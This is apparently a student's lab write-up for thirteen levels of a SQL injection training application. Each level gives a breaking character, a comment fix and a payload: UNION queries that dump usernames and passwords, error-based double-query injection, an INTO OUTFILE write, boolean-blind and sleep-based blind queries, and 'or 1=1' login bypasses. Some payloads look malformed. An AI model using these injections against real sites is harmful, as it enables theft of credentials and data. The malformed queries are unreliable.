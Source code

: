 ![Screenshot_2024-04-02_00-36-02](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/1f1dc92b-245a-4250-ad62-9a3d9572c07a)# SQLI-WRITEUPS                      

**Level-1**                                     
![Screenshot_2024-04-01_07-22-36](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/e8e398cf-c59f-4afa-b0dc-b06c0115ac80)                                 
In this level the error caused in sql query is due to single quote. if we observe the above error we can find that by commenting after the quote we can fix the query.Then after we can send our queries to fetch data from the database.                            
![Screenshot_2024-04-01_18-11-39](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/bbf9bd63-589b-47b4-a09e-b6f9e82d7af0)                                      
**Error: '**              
**Fixing: '--+**
**Query:** *UNION SELECT 1,USERNAME,PASSWORD FROM USERS WHERE ID=3 LIMIT 1,1*                              

**Level-2**                                                                           
![Screenshot_2024-04-01_18-21-55](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/d640e76e-054f-4b61-95ee-33fa671211a6)                                
In this level actually there is no error by commenting out everything after the id it works fine and we cans end our queries to get data.             
**Error: No Error**                        
**Fixing: ?id=1--+**                            
**Query:** *UNION SELECT 1,GROUP_CONCAT(USERNAME),GROUP_CONCAT(PASSWORD) FROM USERS --+*                           

**Level-3**                                              
![Screenshot_2024-04-01_18-27-00](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/611e6831-0e37-4ce8-9a2e-357f2e991ee4)                    
In this level the error is due to single quote . we can fix the error by placing a single quote and parenthes and then by commenting out the remaing query will fix the error and help us to make our own queries                   
![Screenshot_2024-04-01_18-27-44](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/5bee9d0f-8034-4d8a-8f7b-c2f30bf37fac)                            
**Error:  '    id'   ')**                            
**Fixing:  ?id=1')--+**                      

**Level-4**                                              
![Screenshot_2024-04-01_19-24-34](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/c9099fa5-993b-49a9-b45a-309da68b53bc)                                      
In this level the error is same as the previous level but doublequote is sued instead of single quote                  
![Screenshot_2024-04-01_19-25-32](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/e3168cfb-ec4b-4325-8a6f-b3994b929071)                           
**Error:  "     id"    ")**            
**Fixing: ?id=1")--+**                  
                                        
**Level-5**                                                  
![Screenshot_2024-04-01_19-46-01](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/21045cbe-b293-417b-b07c-2665f819942c)                                 
In this level the webpage doesnot show any query results in the webpage so we cannot display query data in webpage . but it displays an error. using that we can send double query injection to give us the data in the error statement.                      
![Screenshot_2024-04-01_19-47-51](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/cda1b4f6-67c6-45f0-afb4-fe566d296049)                                 
**Error: ' id' '**                      
**Fixing: ?id=1'--+**              
**Query:** *select count(*),(concat("~",(select database()),"~",floor(rand()*2)))a from information_schema.tables group by a*                         
                                       
**Level-6**                          
![Screenshot_2024-04-01_20-42-44](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/de5946ae-9b7b-45b5-9629-81427428fb28)                                 
In this level the error is same as level-5 but instead of single quotes double quotes is used in this level. After breaking and fixing the query the remaining part is same as Level-5        
![Screenshot_2024-04-01_20-42-28](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/c43f3dc5-f442-4d16-8db7-9dcc551a67a2)                        
**Error: '"   id"   "'**                        
**Fixing: ?id=1"--+**                            
**Query:** *select count(*),(concat("~",(select database()),"~",floor(rand()*2)))a from information_schema.tables group by a*                    
                                              
**Level-7**                              
![Screenshot_2024-04-01_21-08-16](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/4defc0be-6bc4-40e2-a0a7-755d7a94624f)                          
In this level if there is any error it doesnt display the exact error it will only display a error message . so we need to try for breaking and fixing the error using all error queries like singlequotes,doublequotes and parenthes. once it is breaked then we need to fix and write our query. After fixing the error we can write the dumpfile query to result the ouput in otherfille.This is also a semi blind injection.                                                       
![Screenshot_2024-04-01_21-10-00](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/41f5519a-8ef0-4c0c-8e5e-3af0a4f1947a)                          
**Error: (('   id '))   '))**                                         
**Fixing: ?id=1'))--+**                                           
**Query:** *union select 1,username,password from users into outfile "/var/www/html/Less-8/union.txt"*                              
                            
**Level-8**           
![Screenshot_2024-04-01_21-54-59](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/09a64795-b172-40d9-928c-75fba614f3d9)                              
In this level the webpage doesnot show any message even if we occur any error in the query . but if the query is successful we will get some msg. using this we can send boolean based sql queries. if the condition is true we will see the msg in webpage else we wont see any msg. This type of attacks is called blind boolean based sqli injection                        
![Screenshot_2024-04-01_21-55-40](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/70dc94ec-9503-4193-af3d-d004349921da)                 
**Error: '    id'   '**            
**Fixing:  ?id=1'--+**
**Query:** *AND (ascii(substr((SELECT password from users where username='Dumb'),1,1))>90)** 
- If the above condition is true then it returns 1 and then 1 and 1 becomes true so we will login.                        

**Level-9**                                   
![Screenshot_2024-04-01_22-25-20](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/3b601c1e-b74f-49ba-9dd4-48f0820d68e4)                             
In this level we cannot find any difference whether we enter correct id number or not always the message is same. We can try all error method and along with them we should use sleep, so that if one of the error is broken and fixed then used sleep(), then the webpage wont display the the conent for next n seconds that is defined in sleep().                        
![Screenshot_2024-04-01_22-26-39](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/908cd45d-43fb-4770-bb3e-51d2bd2909b3)                              
**Error: '    id'    '**                                                        
**Fixing:   ?id=1'--+**                                                       
**Query:** *and (if((SELECT SUBSTR(table_name,1,1) from information_schema.tables where table_schema="security" limit 0,1=e,sleep(10),null))*                               

**Level-10**                  
![Screenshot_2024-04-01_23-01-06](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/b92d685f-d9ff-4afa-a8ff-ced16d2c6194)                                   
This query is same as level-9. The only difference is instead of single quotes double quotes is used.              
![Screenshot_2024-04-01_23-01-29](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/86e378ce-89f7-4264-a247-b8dec8ff0486)                          
**Error: " id "  "**                               
**Fixing: ?id=1" --+**                                   
**Query:** *and (if((SELECT SUBSTR(table_name,1,1) from information_schema.tables where table_schema="security" limit 0,1=e,sleep(10),null))*                              

**Level-11**              
![Screenshot_2024-04-01_23-44-59](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/de5b1d38-42d7-4bd9-b75d-5b70b706c773)                                           
In this level the username and password is sent in apost request. Once if we acheive breaking and fixing the query which helps us in retrieving data from database then we can pass any of the query using this. since it is displaying data on webpage we can use union attack, since it is displaying error in webpage we can user dobule query injections. we can use blind injection.                        
![Screenshot_2024-04-01_23-45-52](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/7bfb5272-f289-4225-9c6d-ad146a67ab5b)                                                     
**Error: '   username'    '**              
**Fixing: username' or 1=1 #**                   
**Query:** *SELECT USERNAME,PASSWORD FROM USERS WHERE LIMIT 1,1*                   

**Level-12**                        
![Screenshot_2024-04-02_00-00-07](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/c74f67f4-3a38-4922-8beb-6189d51f642a)                      
This level is same as the above level the only difference is while breaking the query we use a double quote and parenthes instead of single quote.                          
![Screenshot_2024-04-02_00-05-30](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/05d1f34d-ad8c-4223-aa24-df5c316cfe6c)                            
**Error: ("   username")    ")**              
**Fixing: username") or 1=1 #**                   
**Query:** *SELECT USERNAME,PASSWORD FROM USERS WHERE LIMIT 1,1*              

**Level-13**                
![Screenshot_2024-04-02_00-27-13](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/d6464ae1-ba3c-448e-8008-da2c35ec4f13)                   
In this level after loging in it is not displaying the username and password . so here we need to make a double injection since it is displaying the entire error in the webpage.                               
![Screenshot_2024-04-02_00-36-02](https://github.com/komalrao1/Bi0s_Blockchain/assets/147682987/1e94d644-c193-43ae-9299-8eb1b1d95193)                                   
**Error: ('    username')    ')**                
**Fixing: username') or 1=1 #**               
**Query:** *') union (select 1 from (select count(*),(concat("~",(select database()),"~",floor(rand()*2)))a from information_schema.tables group by a)b)#*                             


